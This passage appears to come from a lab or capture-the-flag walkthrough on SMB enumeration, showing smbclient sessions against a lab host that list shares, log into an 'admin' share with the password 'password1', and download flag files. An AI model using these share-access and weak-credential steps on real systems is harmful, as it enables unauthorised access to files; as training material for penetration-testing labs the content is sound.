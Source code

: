 ```bash
smb: \> ls
  .      D  0  Tue Nov 27 19:25:12 2018
  ..     D  0  Tue Nov 27 19:25:12 2018
  admin  D  0  Tue Nov 27 19:25:12 2018
  logs   D  0  Tue Nov 27 19:25:12 2018
  flag   D  0  Tue Nov 27 19:25:12 2018
  1981084628 blocks of size 1024. 48016456 blocks available
smb: \> pwd
Current directory is \\192.174.58.3\jane\
```

![](.gitbook/assets/image-20230215103619604.png)

> 📌 *jane*'s share is not browsable but it exists.

```bash
smbclient //192.174.58.3/admin -U admin
# Use "password1" password
```

```bash
smb: \> ls
smb: \> cd hidden
smb: \hidden\> ls
smb: \hidden\> get flag.tar.gz 
smb: \hidden\> exit

root@attackdefense:~# tar -xf flag.tar.gz 
root@attackdefense:~# cat flag
```

```bash
smb: \> cd secret
smb: \secret\> ls
  .     D   0  Tue Nov 27 13:36:13 2018
  ..    D   0  Tue Feb 14 21:58:47 2023
  flag  N  33  Tue Nov 27 13:36:13 2018
  1981084628 blocks of size 1024. 39614508 blocks available
  
smb: \secret\> get flag
getting file \secret\flag of size 33 as flag (32.2 KiloBytes/sec) (average 32.2 KiloBytes/sec)
smb: \secret\> exit

root@attackdefense:~# cat flag 
```

